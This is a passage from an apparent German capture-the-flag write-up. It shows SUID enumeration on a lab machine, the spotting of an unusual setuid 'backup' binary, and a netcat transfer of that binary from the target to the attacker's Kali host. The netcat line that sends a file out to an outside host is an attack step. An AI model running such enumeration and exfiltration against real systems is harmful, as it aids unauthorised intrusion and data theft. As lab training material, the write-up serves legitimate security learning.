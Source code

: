 ```shell
tom@node:/$ find / -perm -u=s 2>/dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/local/bin/backup
/usr/bin/chfn
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/bin/ping
/bin/umount
/bin/fusermount
/bin/ping6
/bin/ntfs-3g
/bin/su
/bin/mount
```

**find / -perm -u=s** durchsucht alle Dateien, nach welchen die von jedem Benutzer ausgeführt werden können und dann die effektive UID des Benutzers der Datei haben. Mehr Informationen dazu kannst du [hier](http://www.zettel-it.de/docs/SUID-SGID-und-Sticky-Bit.pdf) finden. **2>/dev/null** sorgt einfach dafür, dass alle Fehlermeldungen (z.B. bei Zugriff verweigert) zu [/dev/null](https://de.wikipedia.org/wiki//dev/null) umgeleitet werden. [/dev/null](https://de.wikipedia.org/wiki//dev/null) verwirft jegliche Daten, die dorthin geschrieben werden.

**/usr/local/bin/backup** sieht unüblich aus.

```shell
tom@node:/$ cd  /usr/local/bin
tom@node:/usr/local/bin$ file backup

backup: setuid ELF 32-bit LSB exeutable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter  /lib/ld-linux.so.2,  for GNU/Linux 2.6.32, BuildID[sha1]=343cf2d93fb2905848a42007439494a2b4984369,  not stripped
```

**/usr/local/bin/backup **ist eine [ELF](https://de.wikipedia.org/wiki/Executable_and_Linking_Format) Datei.

Laden wir uns die Datei herunter um sie uns genauer ansehen zu können.

```shell
root@kali:~# nc -lnvp 8888 > backup

root@kali:~# ifconfig tun0
[...]
inet 10.10.14.52 netmask 255.255.254.0 destination 10.10.14.52
[...]

tom@node:/usr/local/bin$ nc 10.10.14.52 8888 < backup
```
